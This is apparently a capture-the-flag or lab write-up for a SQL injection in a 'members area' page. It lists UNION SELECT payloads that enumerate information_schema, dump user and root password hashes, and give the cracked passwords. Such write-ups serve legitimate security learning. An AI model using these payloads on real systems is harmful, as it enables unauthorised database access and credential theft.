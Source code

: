 # SQL Injection in Members Area

### Tools
SQL injections list from:https://github.com/payloadbox/sql-injection-payload-list

SQL UNION ATACK guide: https://charlesreid1.com/wiki/SQL_Injection/UNION_Attack
Since we are not allowed to use automated tools like sqlmap.

### How to solve it

1. Firt run multiple sql injetion untill something happens using : 
```
 1 UNION SELECT NULL,NULL
```
2. Later on we try multiple commands and we findout some stuff, member 5 has a Flag inside it, but we couldn't found any password or user info .
```
 5 UNION SELECT TABLE_NAME,NULL FROM information_schema.tables--
```
3. With this command we get a list with all tables and columns searching for some words we found password and user columns on db_default .
```
 5 UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns-- 
```
4. Now we try to access users table to get users info and we get this : 2b3366bcfd44f540e630d4dc2b9b06d9 cracking it we get :	YesWeCan.
```
 5 union SELECT town, countersign FROM Member_Sql_Injection.users LIMIT 2
```
5. Now we try to access users table to get db_default info and we found this : root : 3bf1114a986ba87ed28fc1b5884fc2f8 cracking it we get :shadow.
```
 5 union SELECT username,password FROM Member_Brute_Force.db_default LIMIT 2
```

